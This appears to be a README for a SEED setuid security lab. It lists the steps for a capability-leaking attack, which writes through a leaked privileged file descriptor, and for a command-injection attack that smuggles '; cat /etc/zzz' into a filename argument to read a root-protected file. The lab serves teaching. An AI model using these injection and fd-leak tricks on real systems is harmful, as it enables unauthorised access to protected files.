 Instructions
===

Run capability-leaking attack
---

```
make clean
make attack-capability-leaking
#this will fail, which is expected.
./a.out
#fd is 3
#sh-3.2$ 
#in the above prompt, type the following:
echo yyy >&3
```

Toggle the protection on, in the setuid.c
```

Run seed-setuidlab-task8 attack
---

```
make clean
make attack-seed-setuidlab-task8
touch file1.txt
echo xxx > file1.txt 
./a.out file1.txt 
touch /etc/zzz
sudo chmod 700 /etc/zzz
ls -ltr /etc/zzz
cat /etc/zzz
./a.out "file1.txt; cat /etc/zzz" 
```

